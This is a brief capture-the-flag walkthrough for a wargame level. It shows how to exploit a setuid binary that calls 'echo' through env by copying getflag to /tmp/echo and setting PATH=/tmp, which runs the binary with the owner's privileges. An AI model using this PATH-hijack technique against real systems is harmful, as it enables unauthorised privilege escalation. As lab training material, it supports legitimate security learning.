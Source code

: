 1. `ls -l`
   ```bash
   -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
   ```

2. `xxd level03 | less`
   ```bash
   [...]
   00005e0: [...] /usr/bin/env echo Exploit me
   [...]
   ```

3. `cp /bin/getflag /tmp/echo`

4. `PATH=/tmp`

5. `./level03`